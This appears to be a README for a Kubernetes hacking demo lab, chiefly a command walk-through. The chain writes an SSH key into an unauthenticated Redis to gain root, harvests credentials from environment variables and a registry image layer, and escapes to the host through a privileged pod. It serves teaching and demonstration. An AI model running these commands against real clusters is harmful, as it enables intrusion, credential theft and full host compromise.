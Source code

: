 # Kubernetes Hacking Demo

Quick and dirty setup for the following demo hacking through a Kubernetes cluster:
- Assuming an attacker gained access to `01-access` through some non-K8s-vulnerability
- Attacker can then explore unauthenticated Redis instance and gain OS access to it (has SSH running for simplicity)
- `02-redis` has an env var with credentials for a registry
- Registry contains one image that has an SSH key in it
- Using that SSH key, attacker can gain access to `04-bastion`
- Bastion has a K8s service account that can create pods - also `privileged` ones, which is the `Game Over` step.

## Setup

- Images were on Dockerhub for the Demo, Dockerfiles are maintained in this repo as well
- Adjusting the image in the registry with a new SSH key seems relevant:
  - That was done by starting the registry with a volume for the images, then pushing to it, then re-building the image by `COPY`ing that directory in the Dockerfile
- You need to create certificates for the registry. 

## Walk-through Steps

```
kubectl exec -it 01-access-pod -- bash
nmap -p 6379 192.168.194.0/24
export redis_ip="192.168.194.103"
redis-cli -h $redis_ip
    info
    exit
ssh-keygen
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > spaced_key.txt
cat spaced_key.txt | redis-cli -h $redis_ip -x set ssh_key
redis-cli -h $redis_ip
    config set dir /root/.ssh
    config set dbfilename "authorized_keys"
    save
ssh $redis_ip
printenv
cat /proc/1/environ

nmap -p 443 192.168.194.0/24
export registry_ip="192.168.194.104"
curl -k --user testuser:testpassword "https://$registry_ip:443/v2/_catalog"
curl -k -o layer --user testuser:testpassword "https://$registry_ip:443/v2/base_image/blobs/sha256:20c3a8b9cfa20e73d69d62c65d2290f5fa2162ffef7a822024b2a3e197aa5d9b"
tar xf layer
l /root/.ssh
nmap -p 22 192.168.194.0/24
ssh
mkdir /root/.kube
cat <<EOF > /root/.kube/config
apiVersion: v1
clusters:
- cluster:
    insecure-skip-tls-verify: true
    server: https://10.96.0.1:443
  name: 10.96.0.1:443
contexts:
- context:
    cluster: 10.96.0.1:443
    user: myexample-sa
  name: default
current-context: default
kind: Config
preferences: {}
users:
- name: myexample-sa
  user:
    token: TOKEN
EOF
kubectl auth can-i --list
cat <<EOF > container.yaml
apiVersion: v1
kind: Pod
metadata:
  name: shell-demo
spec:
  securityContext:
    runAsUser: 0
    runAsGroup: 0
  containers:
  - name: ml-testing
    image: uchimata/system-analysis
    command: ["sleep"]
    args: ["infinity"]
    securityContext:
      privileged: true
  dnsPolicy: Default
EOF
kubectl apply -f container.yaml
kubectl exec -it shell-demo -- bash
mount /dev/sda2 /mnt
```
